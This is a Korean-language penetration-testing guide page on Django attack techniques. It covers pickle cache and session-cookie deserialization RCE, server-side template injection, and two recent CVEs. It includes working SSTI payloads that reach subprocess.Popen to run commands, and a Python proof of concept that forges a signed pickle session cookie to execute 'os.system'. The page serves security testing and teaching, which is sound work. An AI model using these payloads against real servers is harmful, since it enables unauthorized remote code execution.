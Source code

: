 # Django

{{#include /src/banners/hacktricks-training.md}}

## Cache Manipulation to RCE
Django의 기본 캐시 저장 방법은 [Python pickles](https://docs.python.org/3/library/pickle.html)로, [신뢰할 수 없는 입력이 언픽클될 경우](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf) RCE로 이어질 수 있습니다. **공격자가 캐시에 대한 쓰기 접근 권한을 얻으면, 이 취약점을 기반 서버에서 RCE로 상승시킬 수 있습니다**.

Django 캐시는 네 곳 중 하나에 저장됩니다: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [메모리](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [파일](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16), 또는 [데이터베이스](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Redis 서버나 데이터베이스에 저장된 캐시는 가장 가능성이 높은 공격 벡터(Redis 주입 및 SQL 주입)이며, 공격자는 파일 기반 캐시를 사용하여 임의의 쓰기를 RCE로 전환할 수도 있습니다. 유지 관리자는 이를 비문제로 표시했습니다. 캐시 파일 폴더, SQL 테이블 이름 및 Redis 서버 세부정보는 구현에 따라 다를 수 있습니다.

이 HackerOne 보고서는 SQLite 데이터베이스에 저장된 Django 캐시를 악용하는 훌륭하고 재현 가능한 예제를 제공합니다: https://hackerone.com/reports/1415436

---

## Server-Side Template Injection (SSTI)
Django 템플릿 언어(DTL)는 **튜링 완전**합니다. 사용자 제공 데이터가 *템플릿 문자열*로 렌더링되면(예: `Template(user_input).render()`를 호출하거나 `|safe`/`format_html()`가 자동 이스케이프를 제거할 때), 공격자는 전체 SSTI → RCE를 달성할 수 있습니다.

### Detection
1. *모든* 비위생화된 요청 데이터를 포함하는 `Template()` / `Engine.from_string()` / `render_to_string()`에 대한 동적 호출을 찾습니다.
2. 시간 기반 또는 산술 페이로드를 전송합니다:
```django
{{7*7}}
```
렌더링된 출력에 `49`가 포함되면 입력이 템플릿 엔진에 의해 컴파일됩니다.

### Primitive to RCE
Django는 `__import__`에 대한 직접 접근을 차단하지만, Python 객체 그래프에 접근할 수 있습니다:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
`subprocess.Popen`의 인덱스를 찾고(약 400–500, Python 빌드에 따라 다름) 임의의 명령을 실행합니다:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
더 안전한 범용 장치는 `cls.__name__ == 'Popen'`이 될 때까지 반복하는 것입니다.

같은 장치는 사용자 입력을 잘못 처리하는 **Debug Toolbar** 또는 **Django-CMS** 템플릿 렌더링 기능에도 적용됩니다.

---

## 피클 기반 세션 쿠키 RCE
설정 `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'`가 활성화되어 있거나 (피클을 역직렬화하는 사용자 정의 직렬 변환기), Django는 *세션 쿠키를 복호화하고 역직렬화*합니다 **보기 코드 호출 전에**. 따라서 유효한 서명 키(기본적으로 프로젝트 `SECRET_KEY`)를 소유하는 것만으로도 즉각적인 원격 코드 실행이 가능합니다.

### 익스플로잇 요구 사항
* 서버가 `PickleSerializer`를 사용합니다.
* 공격자가 `settings.SECRET_KEY`를 알고 있거나 추측할 수 있습니다 (GitHub, `.env`, 오류 페이지 등을 통해 유출됨).

### 개념 증명
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
쿠키를 전송하면 페이로드가 WSGI 작업자의 권한으로 실행됩니다.

**완화 조치**: 기본 `JSONSerializer`를 유지하고, `SECRET_KEY`를 회전시키며, `SESSION_COOKIE_HTTPONLY`를 구성합니다.

---

## 최근 (2023-2025) 고위험 Django CVE 점검 사항
* **CVE-2025-48432** – *이스케이프되지 않은 `request.path`를 통한 로그 주입* (2025년 6월 4일 수정). 공격자가 로그 파일에 개행/ANSI 코드를 밀어넣고 하위 로그 분석을 오염시킬 수 있습니다. 패치 수준 ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *`JSONField`의 `QuerySet.values()/values_list()`에서의 치명적인 SQL 주입* (CVSS 9.8). JSON 키를 조작하여 인용을 벗어나고 임의의 SQL을 실행합니다. 4.2.15 / 5.0.8에서 수정됨.

정확한 프레임워크 버전을 `X-Frame-Options` 오류 페이지 또는 `/static/admin/css/base.css` 해시를 통해 항상 지문을 찍고, 해당되는 경우 위 사항을 테스트합니다.

---

## 참조
* Django 보안 릴리스 – "Django 5.2.2, 5.1.10, 4.2.22가 CVE-2025-48432를 해결합니다" – 2025년 6월 4일.
* OP-Innovate: "Django가 SQL 주입 결함 CVE-2024-42005를 해결하기 위해 보안 업데이트를 릴리스합니다" – 2024년 8월 11일.

{{#include /src/banners/hacktricks-training.md}}
